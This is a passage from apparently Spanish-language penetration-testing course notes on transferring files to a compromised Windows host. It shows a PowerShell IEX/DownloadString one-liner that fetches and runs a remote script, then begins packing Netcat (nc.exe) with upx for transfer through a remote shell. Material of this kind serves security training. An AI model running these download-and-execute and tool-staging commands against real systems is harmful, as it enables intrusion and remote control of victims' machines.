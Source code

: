 ```
C:\Users\Offsec> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Hello World
```

Podemos ver que lo que obtenemos no es el script sino su output.

<br />

#### 2.3. Windows Downloads with exe2hex and PowerShell.

En esta sección tomaremos una ruta algo tortuosa, aunque muy interesante, para descargar un archivo binario de Kali a un host de Windows comprometido. 

Comenzando en nuestra máquina Kali, comprimiremos el binario que queremos transferir, lo convertiremos en una cadena hexadecimal y lo incrustaremos en un script de Windows.

En la máquina con Windows, pegaremos este script en nuestro shell y lo ejecutaremos. Redirigirá los datos hexadecimales a powershell.exe, que los ensamblará nuevamente en un binario. Esto se hará a través de una serie de comandos no interactivos.

Como ejemplo, usemos powershell.exe para transferir Netcat desde nuestra máquina Kali Linux a nuestro cliente de Windows a través de un shell remoto.

Comenzaremos localizando e inspeccionando el archivo nc.exe en Kali Linux.

```
kali@kali:~$ locate nc.exe | grep binaries
/usr/share/windows-resources/binaries/nc.exe

kali@kali:~$ cp /usr/share/windows-resources/binaries/nc.exe .

kali@kali:~$ ls -lh nc.exe
-rwxr-xr-x 1 kali kali 58K Sep 18 14:22 nc.exe
```

Aunque el binario ya es bastante pequeño, reduciremos el tamaño del archivo para mostrar cómo se hace. Usaremos upx , un empaquetador ejecutable (también conocido como herramienta de compresión PE):

```
kali@kali:~$ upx -9 nc.exe
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2018
UPX 3.95        Markus Oberhumer, Laszlo Molnar & John Reiser   Aug 26th 2018

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     59392 ->     29696   50.00%    win32/pe     nc.exe
Packed 1 file.

kali@kali:~$ ls -lh nc.exe
-rwxr-xr-x 1 kali kali 29K Sep 18 14:22 nc.exe
```

*Como podemos ver, upx ha optimizado el tamaño del archivo de nc.exe , reduciéndolo en casi un 50%. A pesar del tamaño más pequeño, el archivo de Windows PE sigue siendo funcional y se puede ejecutar con normalidad.*
